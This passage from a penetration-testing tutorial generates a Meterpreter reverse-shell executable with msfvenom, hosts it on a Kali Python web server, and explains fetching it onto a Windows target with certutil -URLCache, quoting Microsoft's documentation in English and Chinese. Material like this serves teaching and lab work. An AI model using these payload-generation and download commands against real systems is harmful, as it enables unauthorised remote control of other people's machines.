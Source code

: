 `-p`: Specify the payload.

`-f`: the output format.

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.5.4 LPORT=1234 -f exe > meterpreter.exe
```

We need to transfer this meterpreter.exe payload onto the target system.

How can we do this? One of the techniques that we can utilize is the technique of setting up a web server on the Kali Linux system to host this file and then download the file on the target through an in-built Windows utility, because, we don't have a Meterpreter session. That's what we're trying to establish.

Set up a simple web server within our current working directory to host the meterpreter.exe payload.

```
sudo python -m SimpleHTTPServer 80
```

Head back to our first tab, where we have access to the target via command shell, we can interact with the session.

```
sessions 1
```

In order to download this particular meterpreter.exe payload from the Kali Linux web server that we have set up, we're going to utilize an in-built Windows utility called `certutil`, which can allow us, in this case, to download files from remote systems.

[Certutil](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc732443(v=ws.11)#-urlcache)

```
-URLCache
CertUtil [Options] -URLCache [URL | CRL | * [delete]]

Display or delete URL cache entries

URL: cached URL

CRL: operate on all cached CRL URLs only

*: operate on all cached URLs

delete: delete relevant URLs from the current user's local cache

Use -f to force fetching a specific URL and updating the cache.

[-f] [-split]
```

```
-URLCache
CertUtil [选项] -URLCache [URL | CRL | * [delete]]

显示或删除 URL 缓存条目

URL：缓存的网址

CRL：仅对所有缓存的 CRL URL 进行操作

*：对所有缓存的 URL 进行操作

delete：从当前用户的本地缓存中删除相关的URL

使用 -f 强制获取特定 URL 并更新缓存。

```